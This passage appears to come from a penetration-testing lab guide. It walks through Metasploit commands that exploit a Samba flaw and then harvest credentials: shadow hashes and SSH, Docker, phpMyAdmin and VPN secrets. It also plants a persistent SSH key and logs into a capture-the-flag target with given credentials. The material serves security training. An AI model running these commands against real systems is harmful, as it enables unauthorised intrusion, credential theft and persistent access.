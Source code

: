 ### 9.3. Dumping Hashes and Enumeration

**Objective**: Utilize Metasploit post-exploitation modules to achieve system compromise, credential harvesting, and persistent access.

```shell
# Gain access to the system
nmap -sS -sV -p- <target_IP>
service postgresql start && msfconsoles
use exploit/linux/samba/is_known_pipename
set RHOST <target_IP>
check
exploit -z

# Use post exploitation Metasploit modules
use post/multi/gather/ssh_creds
# Extracts stored SSH credentials (usernames, passwords, keys) from the target system.
use post/multi/gather/docker_creds
# Gathers Docker-related credentials and configuration files from the target.
post/linux/gather/hashdump
set VERBOSE true
# Dumps password hashes from the /etc/shadow file on a compromised Linux system.
use post/linux/gather/ecryptfs_creds
# Retrieves credentials and keys used for eCryptfs-encrypted home directories.
use post/linux/gather/enum_psk
# Enumerates pre-shared keys (PSKs) used in VPN or wireless configurations on Linux systems.
post/linux/gather/enum_xchat
set XCHAT true
# Extracts stored credentials and logs from the XChat IRC client.
use post/linux/gather/phpmyadmin_credsteal
# Steals stored login credentials from phpMyAdmin configuration files.
use post/linux/gather/pptpd_chap_secrets
# Retrieves usernames and passwords from the PPTP VPN chap-secrets file.
use post/linux/manage/sshkey_persistence
# Installs an attacker-controlled SSH public key on the target to maintain persistent access.
```

### 9.4. Establishing Persistence On Linux

This section delves into the techniques for establishing persistent access on a Linux system. Participants are tasked with exploiting a vulnerable Linux server target. Through a series of steps, including initial access, privilege escalation, and establishing persistence.

**Objective**: Escalate to the root user on the target machine and retrieve the flag!

**SSH Login Credentials:**
Username: jackie
Password: password

**GAIN ACCESS TO THE TARGET**

```shell
nmap -sS -sV <target_IP>
service postgresql start && msfconsole
workspace -a Linux_Persistence
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target_IP>
set USERNAME jackie
set PASSWORD password
exploit

sessions
sessions -u 1

# To use the Metasploit persistence modules, we will first need to elevate our privileges on the Linux target.
```